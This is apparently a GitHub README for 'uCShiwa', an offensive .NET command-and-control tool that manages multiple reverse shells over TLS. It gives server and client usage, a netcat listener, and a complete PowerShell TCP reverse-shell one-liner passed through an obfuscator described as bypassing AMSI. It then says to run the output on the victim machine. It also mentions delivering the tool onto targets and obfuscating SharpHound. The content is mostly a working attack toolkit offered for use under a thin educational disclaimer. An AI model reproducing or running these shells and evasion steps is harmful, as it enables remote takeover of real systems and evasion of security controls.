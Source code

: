 # uCShiwa

.NET Core light C2 Unit:

- Manage multiple revershells
- Use TLS and command obfuscation
- Keep It Simple, Stupid

This tool is presented for educational purpose.
It was used in real security tests and in advenced penetration testing labs (2020-2022).

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## Help & Documentation

Execute it without any options to print help

## Server

```shell
Ucshiwa.exe <port> <certificate.pfx> <passwd>

<0> Server mode
<0> Port: 4444
Cipher: Aes256
Hash: Sha384
Protocol: Tls12

<0> 10.10.10.10:1234 > (Your command)
```

## ReverseShell

```shell
Ucshiwa.exe <ip> <port>

<0> Reverse Shell mode
<0> Ip: 10.10.10.10
<0> Port: 4444
CN:CN=...
ExpirDate:...
PubKey:....
```

## Mutli-Client

Several revershells can be used on the same server (IP:port): 

- Clients connect periodically
- The first connected, the first tasked.
- The `exit` command allows you to change session
- The `bg` command allows you to run command in background and change session

## Encrytion

TLS 1.2

Consider the default `cert.pfx` file as compromised (password: ucshiwa). A quick way to generate your own is the `New-SelfSignedCertificate`:

```powershell
New-SelfSignedCertificate -DnsName Ucshiwa.lan -CertStoreLocation Cert:\CurrentUser\My\  -KeyAlgorithm RSA -KeyLength 4096
certmgr.msc # export the generated certificate as password protected .pfx file 
```

## Obfuscation

This is the default behavior, feel free to adapt the source code:

- Powershell is embeded in windows/linux clients (many libs but no child process creation)
- On server side, put `Shellingan.ps1` in the same directory to automatically perform command obfuscation (AMSI bypass)

## Authentication

Certificate is manualy validated during the revershell connection

## Multi-Platform

- Windows: `dotnet publish --self-contained true`
- Linux: `dotnet publish -r linux-x64 --self-contained true`

## Delivery

Unzip it on the target machine with the `Expand-Archive` cmdlet

## To use Shellingan.ps1 as a standalone script

### Import

```powershell
. .\shellingan.ps1
```

### Options

```console
-cmd: command obfuscation
-iex: add invoke-expression
-recurse: number of obfuscation loop
```

### Exemple

From your attack machine:
```console
nc64.exe -lnvp <port>
```


```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Execute the output on the victim machine to get your reverse shell

## Misc

this project contains also an exemple of how obfuscate Sharphound (BloodHound ingestor)

## Love uCShiwa ? 

Help me to keep uCShiwa free and open-source

* [Ethereum Donation](https://etherscan.io/address/0xcC424e30Ff6eEAb4E6B3A900c5446038F858b314)